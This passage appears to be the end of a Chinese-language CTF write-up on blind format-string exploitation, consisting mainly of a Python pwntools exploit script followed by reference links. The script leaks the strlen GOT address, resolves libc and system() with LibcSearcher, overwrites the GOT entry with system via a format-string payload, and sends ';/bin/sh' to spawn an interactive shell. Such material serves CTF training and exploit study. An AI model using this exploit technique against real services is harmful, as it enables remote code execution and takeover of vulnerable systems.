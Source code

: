 ```python
			return payload;
		else:
			len1 = len2
#dump bin can not be loaded
#but can analysis
offset = 8
#step 1 leak the printf_got
#maybe plt 08048400
strlen_got = 0x601020
strlen_leak = "%9$s" + "SEND" + p64(strlen_got)
io.send(strlen_leak)
io.recvuntil('Repeater:')
libc_strlen = u64(io.recvuntil('SEND', drop=True).ljust(8, '\x00'))
print hex(libc_strlen)
#libc_printf = u64(io.recv()[8:16])
#print hex(libc_printf)
io.recv()

#step 2 find the libc
libc = LibcSearcher('strlen',libc_strlen)
libcbase = libc_strlen - libc.dump('strlen')
system_addr = libcbase + libc.dump('system')
print hex(system_addr)
#step 3 cover the address

payload_antitone = antitone_fmt_payload(8,{strlen_got : system_addr},write_size='short',numbwritten=9)
#payload_cover = fmtstr_payload(8,{putchar_got : system_addr},write_size='short')
io.sendline(payload_antitone)
io.recv()

#step 4 get shell
#time.sleep(10)
io.sendline(";/bin/sh\x00")
#io.recv()
print hex(system_addr)
io.interactive()
```



## 参考链接

- [陌小生]( https://www.xmsec.cc/format-string-leak-binary-blind-pwn/ )

- [默小西](  http://momomoxiaoxi.com/2017/12/26/Blindfmtstr/   )

- [ctf-wiki]( https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example-zh/#1- )

- pwntools官方文档...

  